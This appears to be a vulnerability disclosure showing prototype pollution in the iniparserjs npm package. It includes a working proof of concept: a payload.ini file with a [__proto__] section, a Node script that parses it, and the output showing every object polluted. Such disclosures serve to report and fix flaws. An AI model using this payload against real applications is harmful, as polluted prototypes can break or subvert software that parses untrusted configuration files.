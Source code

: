 # Description

`iniparserjs` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var path = require("path")
var IniParser = require("iniparserjs")
console.log('Before:', {}.polluted);
var config = new IniParser(path.join(__dirname, "payload.ini"), "UTF8")
var sections = config.sections()
console.log('After:', {}.polluted);


//payload.ini
[__proto__]
polluted = "Yes! Its Polluted";
```


2. Execute the following commands in terminal:

```
npm i iniparserjs # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
